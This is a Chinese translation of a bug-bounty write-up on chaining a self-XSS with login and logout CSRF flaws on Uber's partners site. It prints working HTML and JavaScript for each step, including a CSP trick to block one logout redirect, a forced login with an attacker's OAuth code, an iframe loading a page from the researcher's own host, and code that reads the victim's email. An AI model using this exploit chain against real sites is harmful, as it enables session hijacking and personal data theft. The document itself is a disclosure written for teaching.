 # Uber三个鸡肋漏洞的妙用

0x00 简介
=======

* * *

作者通过精心设计，将一个鸡肋的的self-XSS和两个鸡肋的csrf变成了一个高质量的漏洞。

原文：  
[https://fin1te.net/articles/uber-turning-self-xss-into-good-xss/](https://fin1te.net/articles/uber-turning-self-xss-into-good-xss/)

在Uber一个设置个人信息的页面上，我找到一个非常简单且经典的XSS漏洞。设置项中随便修改一个字段为`<script>alert(document.domain);</script>`就可以执行并弹框。

![uber-partners-xss-1-1](http://drops.javaweb.org/uploads/images/bfb7eeb6efde34fdcdc1b4a5809fb9aceb0eb10c.jpg)

![uber-partners-xss-1-1](http://drops.javaweb.org/uploads/images/d1bcf45cdc239e2cc77a1f862215ae729879bb27.jpg)

一共花了两分钟找到这个漏洞，但是我们要来点更有意思的。

0x01 self-XSS
=============

* * *

可以在网页中运行外界可控的任意JS脚本就被称为XSS漏洞，这时候你一般可以去读取其他用户的Cookies，或者发出一些请求。但是如果你只能对自己做这些，而不是其他用户，比如这段代码只会在你能看到的页面里面运行，这就被称为self-XSS。这种情况下，即使我们发现了漏洞，也很难去影响其他人。

我犹豫了一会，但是我后来决定试试，看能不能去掉这个"self"。

0x02 Uber OAuth 登录流程
====================

* * *

Ubser的OAuth登录流程也是很经典的

*   用户访问Uber某个需要登录的网站，比如`partners.uber.com`
*   用户被重定向到授权服务器，比如`login.uber.com`
*   用户输入账号密码
*   用户重定向回到`partners.uber.com`，同时URL中携带`code`，可以用来换取Access Token

![uber-partners-xss-2](http://drops.javaweb.org/uploads/images/3699206542f721f620e311962e076e8d831ed53f.jpg)

从上面的截图你可以看到，OAuth的回调地址`/oauth/callback?code=...`并没有使用标准推荐的`state`参数，这意味着登录功能存在CSRF的问题，但是不好说会不会造成严重的问题。

同时，在退出登录的地方也有一个CSRF漏洞，当然这一般不会认为是漏洞。访问`/logout`会清除用户`partner.uber.com`的session，然后再重定向到`login.uber.com`的退出登录页面，清除`login.uber.com`的session。

因为我们的payload只存在于自己的账号中，我们可以让其他用户登录进我们的账号，然后payload就会执行，不过登录我们的账号会清除他们之前所有的session，这就让漏洞大打折扣了。所以我们要把漏洞放在一起利用。

0x03 捆绑利用漏洞
===========

* * *

我们的计划就是这样的了

*   首先，让用户登出`partner.uber.com`，但是不要登出`login.uber.com`，这样后面可以让用户重新回到原有账号
*   然后，让用户登录我们的账号，这样payload就会执行
*   最后，用户登录自己的账号，但是我们的payload仍然在运行，这样就可以盗取信息了

### 第一步 只在一个域名退出登录

首先发送一个请求到`https://partners.uber.com/logout/`，然后就可以登录我们的账号了。但是问题在于退出登录的重定向最终会到达`https://login.uber.com/logout/`，导致另外一个域名也退出登录。我们能不能控制呢？

我的方法就是使用Content Security Police来设置可以加载的域名。我只设置了允许请求`partners.uber.com`，`login.uber.com`就会被浏览器拦截。

```
<!-- 设置CSP策略阻止访问 login.uber.com -->
<meta http-equiv="Content-Security-Policy" content="img-src https://partners.uber.com">
<!-- 退出登录 partners.uber.com -->
<img src="https://partners.uber.com/logout/">

```

这样是可以的，CSP会有下面的提示

![uber-partners-xss-3](http://drops.javaweb.org/uploads/images/8503b6c0ca08e58de8f20095d5afe845ddb9cdfe.jpg)

### 第二步 登录我的账号

这一步相对来说简单了一些，我们向`https://partners.uber.com/login/`发送一个请求（这一步是必须的，否则我们没法接收到回调）。上面我们用了CSP的trick来阻止部分流程，这里我们就需要用我自己的`code`来让用户登录了。

因为CSP会触发`onerror`，我们就可以在那里面跳转到下一步了。

```
<!-- CSP策略会阻止访问 login.uber.com -->
<meta http-equiv="Content-Security-Policy" content="img-src partners.uber.com">
<!-- 退出登录 partners.uber.com，在跳转到login.iber.com的时候触发onerror -->
<img src="https://partners.uber.com/logout/" onerror="login();">
<script>
    //初始化登录
    var login = function() {
        var loginImg = document.createElement('img');
        loginImg.src = 'https://partners.uber.com/login/';
        loginImg.onerror = redir;
    }
    //用我们的code登录
    var redir = function() {
        // 为了方便测试，code放在url hash中，实际需要动态的获取
        var code = window.location.hash.slice(1);
        var loginImg2 = document.createElement('img');
        loginImg2.src = 'https://partners.uber.com/oauth/callback?code=' + code;
        loginImg2.onerror = function() {
            window.location = 'https://partners.uber.com/profile/';
        }
    }
</script>

```

### 第三步 回到原来的账号

这一部分的代码将会有XSS的payload，在我的账号中。

只要payload一运行，就可以切换回原来的账号了。这个必须在iframe中，因为需要保持payload一直运行。

```
// 创建一个iframe，让用户退出登录我的账号
var loginIframe = document.createElement('iframe');
loginIframe.setAttribute('src', 'https://fin1te.net/poc/uber/login-target.html');
document.body.appendChild(loginIframe);

```

iframe里面还是用CSP的trick

```
<meta http-equiv="Content-Security-Policy" content="img-src partners.uber.com">
<img src="https://partners.uber.com/logout/" onerror="redir();">
<script>
    //使用用户login.uber.com的session重新登录
    var redir = function() {
        window.location = 'https://partners.uber.com/login/';
    };
</script>

```

最后一部分是创建另外一个iframe，这样可以获取一些数据了

```
//等待几秒，加载个人信息页面，这是用户原始的信息
setTimeout(function() {
    var profileIframe = document.createElement('iframe');
    profileIframe.setAttribute('src', 'https://partners.uber.com/profile/');
    profileIframe.setAttribute('id', 'pi');
    document.body.appendChild(profileIframe);
    //提取email信息
    profileIframe.onload = function() {
        var d = document.getElementById('pi').contentWindow.document.body.innerHTML;
        var matches = /value="([^"]+)" name="email"/.exec(d);
        alert(matches[1]);
    }
}, 9000);

```

因为我们最终的这个iframe是在个人信息页面加载的，是同源的，而且`X-Frame-Options`也是设置的`sameorigin`而不是`deny`，所以我们使用`contentWindow`是可以访问到里面的内容的。

![uber-partners-xss-5](http://drops.javaweb.org/uploads/images/0bf50a232ec72274536a55d48f25cfdde5a9ea26.jpg)

### 综合在一起

*   将第3步payload加入个人信息中
*   登录自己的账号，取消回调，拿到还未用过的`code`
*   让用户访问我们在第2步中创建的页面
*   这样用户就会退出登录，然后重新登录到我的账号
*   第3步的payload就会执行
*   在隐藏的iframe中，退出登录我的账号
*   在另外一个隐藏的iframe中，重新登录用户的账号
*   这样我们就有了一个同源的有用户session的iframe了

这个漏洞很有意思，启发我们要在一个更高的层面去挖掘和思考安全漏洞。